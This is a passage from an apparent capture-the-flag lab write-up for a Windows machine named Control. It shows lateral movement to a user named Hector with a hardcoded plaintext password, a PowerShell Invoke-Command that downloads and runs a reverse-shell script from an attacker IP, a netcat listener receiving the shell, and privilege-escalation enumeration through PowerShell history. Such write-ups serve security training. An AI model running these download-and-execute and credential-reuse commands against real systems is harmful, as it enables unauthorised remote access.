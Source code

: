 ```powershell
PS C:\inetpub\wwwroot>
```

Move to this user and run enumeration again. Let create a **PSCredential object ** to run commnad as **hector** user. Set up a new netcat listener and type this commands in shell that you already have in the machine:

```powershell
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("Fidelity\Hector" , $pass)
Invoke-Command -Computer Fidelity -Credential $cred -ScriptBlock {IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/dumb-shell.ps1')}
```

1. Convert the password to a secure string
2. Create a new objetct (PS Credential) 
3. Run command with this new object created.

```powershell
nc -4nlvp 4242
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.10.167.
Ncat: Connection from 10.10.10.167:49688.
Windows PowerShell running as user Hector on CONTROL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\Hector\Documents> whoami
control\hector
```



## Privilege Escalation



```powershell
PS C:\Users\Hector\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Running  several tools give me nothing, so I come back to the basics.   Looking for **Powershell** history give what I want. 

```powershell
PS C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline> dir

    Directory: C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/25/2019   1:36 PM            114 ConsoleHost_history.txt


PS C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline> gc ConsoleHost_history.txt
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```
